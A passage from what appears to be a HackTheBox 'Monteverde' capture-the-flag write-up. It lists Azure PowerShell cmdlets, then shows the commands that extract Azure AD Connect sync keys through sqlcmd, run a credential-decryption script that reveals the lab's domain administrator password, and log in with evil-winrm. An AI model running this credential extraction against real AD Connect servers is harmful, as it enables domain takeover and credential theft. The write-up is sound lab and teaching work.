55Cmdlet Get-AzResourceGroupDeploymentOperation 1.9.0 Az.Resources
56Cmdlet Get-AzResourceLock 1.9.0 Az.Resources
57Cmdlet Get-AzResourceProvider 1.9.0 Az.Resources
58Cmdlet Get-AzRoleAssignment 1.9.0 Az.Resources
59Cmdlet Get-AzRoleDefinition 1.9.0 Az.Resources
60Cmdlet Get-AzSubscription 1.6.6 Az.Accounts
61Cmdlet Get-AzTag 1.9.0 Az.Resources
62Cmdlet Get-AzTenant 1.6.6 Az.Accounts
63Cmdlet Get-AzureADConnectHealthProxySettings 1.0 AzureADConnectHealthSync
64Cmdlet Import-AzContext 1.6.6 Az.Accounts
65Cmdlet Invoke-AzResourceAction 1.9.0 Az.Resources
66Cmdlet Move-AzResource 1.9.0 Az.Resources
67Cmdlet New-AzADAppCredential 1.9.0 Az.Resources
68Cmdlet New-AzADApplication 1.9.0 Az.Resources
69Cmdlet New-AzADGroup 1.9.0 Az.Resources
70Cmdlet New-AzADServicePrincipal 1.9.0 Az.Resources
71Cmdlet New-AzADSpCredential 1.9.0 Az.Resources
72Cmdlet New-AzADUser 1.9.0 Az.Resources
73Cmdlet New-AzDeployment 1.9.0 Az.Resources
74Cmdlet New-AzManagedApplication 1.9.0 Az.Resources
75Cmdlet New-AzManagedApplicationDefinition 1.9.0 Az.Resources
76Cmdlet New-AzManagementGroup 1.9.0 Az.Resources
77Cmdlet New-AzManagementGroupSubscription 1.9.0 Az.Resources
78Cmdlet New-AzPolicyAssignment 1.9.0 Az.Resources
79Cmdlet New-AzPolicyDefinition 1.9.0 Az.Resources
80Cmdlet New-AzPolicySetDefinition 1.9.0 Az.Resources
81Cmdlet New-AzResource 1.9.0 Az.Resources
82Cmdlet New-AzResourceGroup 1.9.0 Az.Resources
83Cmdlet New-AzResourceGroupDeployment 1.9.0 Az.Resources
84Cmdlet New-AzResourceLock 1.9.0 Az.Resources
85Cmdlet New-AzRoleAssignment 1.9.0 Az.Resources
86Cmdlet New-AzRoleDefinition 1.9.0 Az.Resources
87Cmdlet New-AzTag 1.9.0 Az.Resources
88Cmdlet Register-AzModule 1.6.6 Az.Accounts
89Cmdlet Register-AzProviderFeature 1.9.0 Az.Resources
90Cmdlet Register-AzResourceProvider 1.9.0 Az.Resources
91Cmdlet Register-AzureADConnectHealthSyncAgent 1.0 AzureADConnectHealthSync
92Cmdlet Remove-AzADAppCredential 1.9.0 Az.Resources
93Cmdlet Remove-AzADApplication 1.9.0 Az.Resources
94Cmdlet Remove-AzADGroup 1.9.0 Az.Resources
95Cmdlet Remove-AzADGroupMember 1.9.0 Az.Resources
96Cmdlet Remove-AzADServicePrincipal 1.9.0 Az.Resources
97Cmdlet Remove-AzADSpCredential 1.9.0 Az.Resources
98Cmdlet Remove-AzADUser 1.9.0 Az.Resources
99Cmdlet Remove-AzContext 1.6.6 Az.Accounts
100Cmdlet Remove-AzDeployment 1.9.0 Az.Resources
101Cmdlet Remove-AzEnvironment 1.6.6 Az.Accounts
102Cmdlet Remove-AzManagedApplication 1.9.0 Az.Resources
103Cmdlet Remove-AzManagedApplicationDefinition 1.9.0 Az.Resources
104Cmdlet Remove-AzManagementGroup 1.9.0 Az.Resources
105Cmdlet Remove-AzManagementGroupSubscription 1.9.0 Az.Resources
106Cmdlet Remove-AzPolicyAssignment 1.9.0 Az.Resources
107Cmdlet Remove-AzPolicyDefinition 1.9.0 Az.Resources
108Cmdlet Remove-AzPolicySetDefinition 1.9.0 Az.Resources
109Cmdlet Remove-AzResource 1.9.0 Az.Resources
110Cmdlet Remove-AzResourceGroup 1.9.0 Az.Resources
111Cmdlet Remove-AzResourceGroupDeployment 1.9.0 Az.Resources
112Cmdlet Remove-AzResourceLock 1.9.0 Az.Resources
113Cmdlet Remove-AzRoleAssignment 1.9.0 Az.Resources
114Cmdlet Remove-AzRoleDefinition 1.9.0 Az.Resources
115Cmdlet Remove-AzTag 1.9.0 Az.Resources
116Cmdlet Rename-AzContext 1.6.6 Az.Accounts
117Cmdlet Resolve-AzError 1.6.6 Az.Accounts
118Cmdlet Save-AzContext 1.6.6 Az.Accounts
119Cmdlet Save-AzDeploymentTemplate 1.9.0 Az.Resources
120Cmdlet Save-AzResourceGroupDeploymentTemplate 1.9.0 Az.Resources
121Cmdlet Select-AzContext 1.6.6 Az.Accounts
122Cmdlet Select-AzProfile 1.6.6 Az.Accounts
123Cmdlet Send-Feedback 1.6.6 Az.Accounts
124Cmdlet Set-AzContext 1.6.6 Az.Accounts
125Cmdlet Set-AzDefault 1.6.6 Az.Accounts
126Cmdlet Set-AzEnvironment 1.6.6 Az.Accounts
127Cmdlet Set-AzManagedApplication 1.9.0 Az.Resources
128Cmdlet Set-AzManagedApplicationDefinition 1.9.0 Az.Resources
129Cmdlet Set-AzPolicyAssignment 1.9.0 Az.Resources
130Cmdlet Set-AzPolicyDefinition 1.9.0 Az.Resources
131Cmdlet Set-AzPolicySetDefinition 1.9.0 Az.Resources
132Cmdlet Set-AzResource 1.9.0 Az.Resources
133Cmdlet Set-AzResourceGroup 1.9.0 Az.Resources
134Cmdlet Set-AzResourceLock 1.9.0 Az.Resources
135Cmdlet Set-AzRoleDefinition 1.9.0 Az.Resources
136Cmdlet Set-AzureADConnectHealthProxySettings 1.0 AzureADConnectHealthSync
137Cmdlet Stop-AzDeployment 1.9.0 Az.Resources
138Cmdlet Stop-AzResourceGroupDeployment 1.9.0 Az.Resources
139Cmdlet Test-AzDeployment 1.9.0 Az.Resources
140Cmdlet Test-AzResourceGroupDeployment 1.9.0 Az.Resources
141Cmdlet Test-AzureADConnectHealthConnectivity 1.0 AzureADConnectHealthSync
142Cmdlet Uninstall-AzureRm 1.6.6 Az.Accounts
143Cmdlet Unregister-AzResourceProvider 1.9.0 Az.Resources
144Cmdlet Update-AzADApplication 1.9.0 Az.Resources
145Cmdlet Update-AzADServicePrincipal 1.9.0 Az.Resources
146Cmdlet Update-AzADUser 1.9.0 Az.Resources
147Cmdlet Update-AzManagementGroup 1.9.0 Az.Resources
I got stuck here, took a hint, and now knew that AAD Sync was the way forward.
1Mode LastWriteTime Length Name
2---- ------------- ------ ----
3d----- 1/2/2020 9:36 PM Common Files
4d----- 1/2/2020 2:46 PM internet explorer
5d----- 1/2/2020 2:38 PM Microsoft Analysis Services
6d----- 1/2/2020 2:51 PM Microsoft Azure Active Directory Connect
7d----- 1/2/2020 3:37 PM Microsoft Azure Active Directory Connect Upgrader
8d----- 1/2/2020 3:02 PM Microsoft Azure AD Connect Health Sync Agent
9d----- 1/2/2020 2:53 PM Microsoft Azure AD Sync
10d----- 1/2/2020 2:38 PM Microsoft SQL Server
11d----- 1/2/2020 2:25 PM Microsoft Visual Studio 10.0
12d----- 1/2/2020 2:32 PM Microsoft.NET
13d----- 1/3/2020 5:28 AM PackageManagement
14d----- 1/2/2020 9:37 PM VMware
15d-r--- 1/2/2020 2:46 PM Windows Defender
16d----- 1/2/2020 2:46 PM Windows Defender Advanced Threat Protection
17d----- 9/15/2018 12:19 AM Windows Mail
18d----- 1/2/2020 2:46 PM Windows Media Player
19d----- 9/15/2018 12:19 AM Windows Multimedia Platform
20d----- 9/15/2018 12:28 AM windows nt
21d----- 1/2/2020 2:46 PM Windows Photo Viewer
22d----- 9/15/2018 12:19 AM Windows Portable Devices
23d----- 9/15/2018 12:19 AM Windows Security
24d----- 1/3/2020 5:28 AM WindowsPowerShell
We can see it in the program files.
And also that there is a service account

There are some tools like adconnectdump but that didn’t work.
We have to manually exploit with this, powershell script.
We need the instance_id, key_id, and entropy.
1sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from
2mms_server_configuration"
We can put those in the script like so.
1$key_id = 1
2$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
3$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
Update the $Client variable.
1$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
2"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
Upload the script and run it.
1*Evil-WinRM* PS C:\Users\mhope\Documen.\azuread_decrypt_msol.ps1
2AD Connect Sync Credential Extract POC (@_xpn_)
3
4Domain: MEGABANK.LOCAL
5Username: administrator
6Password: d0m@in4dminyeah!
1evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
Anytime AAD Connect is in play DCSync is also in play because hashes are being replicated so those permissions have to exist.